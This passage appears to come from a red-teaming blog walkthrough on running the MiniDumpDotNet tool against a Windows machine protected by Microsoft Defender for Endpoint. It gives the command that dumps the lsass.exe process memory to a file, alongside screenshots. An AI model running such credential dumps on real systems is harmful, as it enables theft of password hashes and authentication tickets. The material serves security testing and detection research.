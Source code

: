 	![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020220820032153.png)

### Binary execution against EDR (MDE) - MiniDumpDotNet

Copy `minidumpdotnet.exe` to `C:\Tools` on a `testmachine`.

Enumerate the `lsass.exe` pid using `TaskManager`.

Next dump the `lsass` process in a CMD shell process as follows:  `.\minidumpdotnet.exe 844 mini.dmp`

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823143320.png)
